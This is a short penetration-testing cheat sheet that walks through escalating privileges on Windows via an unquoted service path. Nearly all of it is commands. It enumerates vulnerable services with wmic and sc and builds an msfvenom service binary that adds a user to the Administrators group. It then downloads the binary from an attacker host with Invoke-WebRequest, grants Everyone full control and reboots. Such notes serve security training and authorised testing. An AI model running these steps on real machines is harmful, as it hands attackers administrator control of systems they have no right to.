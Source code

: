 ```yaml
---
title: Windows PrivEsc with Unquoted Service Path
description: A service path with unquoted and spaces might be vulnerable to privilege escalation.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-02-08
draft: false
---
```


## Investigation

In target machine, find unquoted service path.

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\" | findstr /i /v """                                "
```

Also query the configuration information for a service.

```powershell
sc qc "Development Service"
```

For instance if the service path is **"C:\Program Files\Development Files\Devservice Files\Service.exe"**, we can place the exploit to **"C:\Program Files\Devservice.exe"** by ignoring paths after a space.

<br />

## Exploitation

### 1. Create a Payload

In local machine, create a payload using msvenom.  
Replace **"victim-user"** with the target user who we can access to.

```sh
msfvenom -p windows/exec CMD='net localgroup Administrators victim-user /add' -f exe-service -o Devservice.exe
```

### 2. Place a Payload to Target Path

Now transfer the payload to target machine.

```powershell
Invoke-WebRequest -Uri http://<local-ip>:8000/Devservice.exe -OutFile .\Devservice.exe
```

Then place the payload to the path where we've found in investigation.

```powershell
mv .\Devservice.exe '\Program Files\Development Files\'
```

### 3. Change Permission of the Payload

```powershell
icacls 'C:\Program Files\Development Files\Devservice.exe' /grant Everyone:F
```

### 4. Restart Machine

Restart the target machine, then the victim user should have an administrator's privilege.

```powershell
# Restart
shutdown /r /t 0
# or PowerShell's command
Restart-Computer
```